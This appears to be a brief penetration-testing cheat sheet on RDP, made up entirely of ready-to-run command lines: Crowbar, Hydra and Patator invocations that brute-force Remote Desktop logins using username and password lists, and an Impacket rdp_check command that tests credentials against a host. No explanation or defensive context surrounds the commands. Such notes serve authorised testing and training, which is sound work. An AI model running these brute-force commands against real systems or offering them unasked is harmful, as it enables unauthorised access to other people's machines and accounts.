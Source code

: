 # RDP

## 01 - Crowbar

```
$ crowbar -b rdp -s <IP> -u <username> -C passwords.lst -n 1

$ crowbar -b rdp -U users.lst -C passwords.lst -s <IP>/32
```

## 02 - Hydra

```
$ hydra -V -l <username> -p <password> rdp://<IP>/<domain>

$ hydra -V -l <username> -P passwords.txt <IP> rdp
```

## 03 - Patator

```
$ patator rdp login host=<IP> user=<username> password=FILE0 0=passwords.lst -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'
```

## 04 - Impacket

```
$ rdp_check.py [<domain>/]"<username>":"<password>"@<IP>
```